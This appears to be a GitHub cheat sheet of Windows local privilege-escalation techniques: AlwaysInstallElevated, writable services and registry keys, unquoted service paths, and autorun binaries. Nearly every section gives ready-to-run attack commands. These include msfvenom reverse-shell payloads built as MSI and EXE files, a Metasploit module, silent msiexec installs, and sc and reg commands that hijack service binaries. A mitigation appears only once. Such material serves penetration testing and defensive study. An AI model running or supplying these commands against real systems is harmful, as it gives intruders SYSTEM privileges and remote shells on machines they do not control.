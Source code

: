 - [Always Install Elevated method](#Always-Install-Elevated-Method)
- [Insecure Service Permissions](#Insecure-Service-Permissions)
- [Insecure Registery Permissions](#Insecure-Registery-Permissions)
- [Unquoted Service Paths](#Unquoted-Service-Paths)
- [Autorun](#Autorun)
-------------------------------------------------------------------------------------------------------------------------------
# Always Install Elevated Method

For this purpose the AlwaysInstallElevated policy feature is used to install a MSI package file with elevated (system) privileges.
his policy if enabled in the Local Group Policy editor; directs the Windows Installer engine to use elevated permissions when it installs 
any program on the system.
From the security point of view this can be abused by an attacker in order to escalate his privileges to the box to SYSTEM.

### Check registry keys
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
- Value **0x1** means that the AlwaysInstallElevated policy is enabled

### Privilege Escalation with Metasploit
```
use exploit/windows/local/always_install_elevated
set session ?
set LHOST 192.168.100.1
exploit
```

### Create MSI Package with PowerSploit
```
PS C:\Users\test> Import-Module Privesc
PS C:\Users\test> Get-RegistryAlwaysInstallElevated
PS C:\users\test> Write-UserAddMSI
```

### Create MSI Package with msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.100.1 lport=4444 –f msi > malicious.msi
```

### Execute the MSI package file on the Windows command prompt
```
>msiexec /quiet /qn /i malicious.msi

/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```

#### Mitigation
- Disable below settings from the GPO
```
Computer Configuration\Administrative Templates\Windows Components\Windows Installer
User Configuration\Administrative Templates\Windows Components\Windows Installer
```
--------------------------------------------------------------------------------------------------------------------------------
# Insecure Service Permissions

Unconfigured Windows OS services allows some users to configure them.

### Check services 
Check which services we have permissions for logged in users "user". **RW** Persmissions.
If we have permissions on the service we can change the the executable file location on the target system.
```
accesschk64.exe -uwcqv "tester" *
```
### Create msfvenom payload
```
msfvenom -p windows/shell_reverse_tcp lhost=<LISTENER_IP> lport=<LISTENER_PORT> -f exe -o malicious.exe
```

### Change service path
```
sc config <service-name> binpath="c:\users\tester\appdata\local\temp\malicious.exe"
```

### Check service path
```
sc -qc <service_name>
```
-------------------------------------------------------------------------------------------------------------------------------# Insecure Registery Permissions

Increase when a service that everyone can change the service PATH in registery records.
**IMPORTANT** Check is the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE"

### Search for interesting service (best alluser in everyone group has full control permission)
- One
```
Wmic service get name | findstr /i /v "C:\Windows\\"
```
- Two (Powershell)
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```
- Three
```
accesschk64.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

### Check registers records for insecure service (check /pace and Type of Access)
```
subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<service_name>" /display
```

### Enumerate the service (Check what service started executes BINARY_PATH_NAME)
```
sc qc <service_name>
```

### Create msfvenom payload
```
msfvenom -p windows/shell_reverse_tcp lhost=<LISTENER_IP> lport=<LISTENER_PORT> -f exe -o malicious.exe
```
 
### Change BINARY_PATH
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\<service_name>" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\tester\AppData\Local\Temp\malicious.exe" /f
```

### Start the service
```
sc start <service_name>
```
-------------------------------------------------------------------------------------------------------------------------------
# Unquoted Service Paths

When the Windows OS starting a service and If any unquoted(has space) in the PATH the service can be manipulating

### Search for unquotedsvc(Command prompt)
- 1
```
sc qc unquotedsvc
```
- 2
```
wmic service get name,displayname,pathname,startmode |findstr /i /v “C:\Windows\\” | findstr /i /v “””
```
Important, "BINARY_PATH_NAME" field displays a path that is not confined between quotes.

### Create msfvenom payload
```
msfvenom -p windows/shell_reverse_tcp lhost=<LISTENER_IP> lport=<LISTENER_PORT> -f exe -o malicious.exe
```
### Place common.exe in Windows OS(Some part of Unquoted Path

### Run service
```
sc start unquotedsvc
```
-------------------------------------------------------------------------------------------------------------------------------
# Autorun

### Check registry for AutoRun executables
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

### Check autorun executables permission
```
accesschk64.exe /accepteula -wvu "C:\my\testing.exe"
```

### Create msfvenom payload
```
msfvenom -p windows/shell_reverse_tcp lhost=<LISTENER_IP> lport=<LISTENER_PORT> -f exe -o malicious.exe
```
- Rename malicious.exe to testing.exe
- Place malicious file in C:\my\testing.exe
-------------------------------------------------------------------------------------------------------------------------------

